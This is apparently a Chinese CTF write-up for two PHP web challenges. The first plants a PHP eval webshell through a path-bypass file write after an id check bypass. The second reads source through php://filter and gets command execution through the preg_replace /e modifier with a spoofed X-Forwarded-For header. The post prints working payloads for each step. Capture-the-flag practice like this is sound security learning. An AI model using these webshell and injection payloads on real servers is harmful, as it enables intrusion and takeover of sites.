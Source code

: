 
虽然是考试周，可是实在不想天天刷题，写写CTF，承包一整天的快乐。

## 工控云管理系统项目管理页面解析漏洞
打开题目，读到源码，进行审计。

    <?php
      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
        include 'config.php';
        $id = mysql_real_escape_string($_GET[id]);
        $sql="select * from cetc007.user where id='$id'";
        $result = mysql_query($sql);
        $result = mysql_fetch_object($result);
      } else {
        $result = False;
        die();
      }

      if(!$result)die("<br >something wae wrong ! <br>");
      if($result){
        echo "id: ".$result->id."</br>";
        echo "name:".$result->user."</br>";
        $_SESSION['admin'] = True;
      }
     ?>
这里首先需要admin权限，需要绕过id的过滤：
`      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9')`
这个的意思就是，将id浮点化之后仍然是1，并且id是以9结尾的。

可以使用`id=1--9`绕过，就是中间加上字符，浮点化就会舍弃后面的部分，但是字符串本身没有改变。
可以看到结果如下

![](./img/1.png)

下来是第二段代码

    <?php
     if ($_SESSION['admin']) {
       $con = $_POST['con'];
       $file = $_POST['file'];
       $filename = "backup/".$file;

       if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
          die("Bad file extension");
       }else{
            chdir('uploaded');
           $f = fopen($filename, 'w');
           fwrite($f, $con);
           fclose($f);
       }
     }
     ?>
在第一段已经获得admin之后，if可以通过。然后post进来三个参数。
这里的php正则，具体的东西我没有仔细学，之后补一补，看看大佬的wp说这个是只过滤了最后一个"."后面的东西。

可以使用`../filename/.`来过滤，因为backup这个文件夹并没有用到，而是uploaded这个文件夹。

然后就把自己的木马写进去就OK。附上payload。

`con=<?php @eval($_POST['gwy2333']);?>&file=../gwy.php/.`

记住是POST，一开始忘了，GET了半天。

![](./img/2.png)

这时候再次访问uploaded/gwy.php，没有出现404，说明已经写好了。开启中国蚁剑。

![](./img/3.png)

测试一下，连接成功。直接去找flag。在html目录底下找见了flag。

![](./img/4.png)


## 后门入侵系统
打开网站，出现page这个GET的参数，联想到文件包含读源码的漏洞，读一读index.php。
`/index.php?page=php://filter/read=convert.base64-encode/resource=index.php`


![](./img/5.png)

base64解码后得到源码。进行审计。

	<?php
	if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
	    echo "<br >Welcome My Admin ! <br >";
	    $pattern = $_GET[pat];
	    $replacement = $_GET[rep];
	    $subject = $_GET[sub];
	    if (isset($pattern) && isset($replacement) && isset($subject)) {
	        preg_replace($pattern, $replacement, $subject);
	    }else{
	        die();
	    }
	}
	?>

XFF改成127.0.0.1之后，GET进来三个参数。这里调用了preg_replace函数。并且没有对pat进行过滤，所以可以传入"/e"触发漏洞。

首先使用phpinfo看一下能不能执行，发现可以。

![](./img/6.png)

之后使用system("ls")发现可疑文件夹，之后cd进去ls，发现flag.php,cat读取即可。

![](./img/7.png)

`rep=system("cd+s3chahahaDir/flag+%26%26+ls")`
注意一下这里的引号里要加上加号，不能直接空格代替。还有&&要用url编码代替，是%26.

![](./img/8.png)


拿到flag，安心复习。
